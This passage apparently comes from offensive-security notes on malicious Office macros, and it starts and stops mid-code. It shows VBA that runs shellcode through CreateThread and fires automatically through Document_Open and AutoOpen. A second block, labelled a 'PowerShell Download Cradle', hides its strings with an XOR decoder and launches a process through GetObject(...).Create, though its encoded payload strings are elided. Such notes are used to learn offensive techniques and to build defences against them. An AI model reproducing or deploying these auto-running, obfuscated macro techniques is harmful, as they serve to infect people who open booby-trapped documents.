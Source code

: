 ```vba
res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()

mymacro

End Sub

Sub AutoOpen()

mymacro

End Sub
```
- VBA PowerShell Download Cradle
```vba
Function MyMacro()

Dim Apples As String

Dim Water As String

If ActiveDocument.Name <> Nuts("...") Then

Exit Function

End If

Apples = "..."

Water = Nuts(Apples)

GetObject(Nuts("...")).Get(Nuts("...")).Create Water, Tea, Coffee, Napkin

End Function

Function Pears(Beets)

Pears = Chr(Beets Xor 188)

End Function

Function Strawberries(Grapes)

Strawberries = Left(Grapes, 3)

End Function

Function Almonds(Jelly)

Almonds = Right(Jelly, Len(Jelly) - 3)

End Function

Function Nuts(Milk)

Do

Oatmilk = Oatmilk + Pears(Strawberries(Milk))

Milk = Almonds(Milk)
```